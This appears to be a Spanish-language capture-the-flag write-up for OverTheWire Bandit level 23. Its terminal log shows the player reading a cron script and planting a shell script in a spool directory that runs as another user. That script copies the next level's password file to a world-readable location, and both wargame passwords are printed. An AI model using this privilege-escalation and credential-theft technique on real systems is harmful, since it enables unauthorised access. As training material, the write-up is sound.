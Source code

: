 # Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# Datos de acceso al nivel
ssh bandit23@bandit.labs.overthewire.org -p 2220
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G


# Solución
```
bandit23@bandit:~$
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/rand
mkdir: cannot create directory ‘/tmp/rand’: File exists
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/reto
mkdir: cannot create directory ‘/tmp/reto’: File exists
bandit23@bandit:/var/spool/bandit24/foo$ reto2
reto2: command not found
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/reto2
bandit23@bandit:/var/spool/bandit24/foo$ cd /tmp/reto2
bandit23@bandit:/tmp/reto2$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/reto2$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/reto2$ cat script.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/reto2/password
bandit23@bandit:/tmp/reto2$ touch password
bandit23@bandit:/tmp/reto2$ chmod 777 -R /tmp/reto2
bandit23@bandit:/tmp/reto2$ cp script.sh /var/spool/bandit24
cp: cannot create regular file '/var/spool/bandit24/script.sh': Operation not permitted
bandit23@bandit:/tmp/reto2$ cp script.sh /var/spool/bandit24
cp: cannot create regular file '/var/spool/bandit24/script.sh': Operation not permitted
bandit23@bandit:/tmp/reto2$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ chmod 777 -R /tmp/reto2
bandit23@bandit:/var/spool/bandit24/foo$ cd /tmp/reto2
bandit23@bandit:/tmp/reto2$ cp script.sh /var/spool/bandit24
cp: cannot create regular file '/var/spool/bandit24/script.sh': Operation not permitted
bandit23@bandit:/tmp/reto2$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/reto2$ cat password
bandit23@bandit:/tmp/reto2$ ls
password  script.sh
bandit23@bandit:/tmp/reto2$ chmod 777 -R /tmp/reto2
bandit23@bandit:/tmp/reto2$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/reto2$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/reto2$
```

# Notas adicionales
 

# Referencias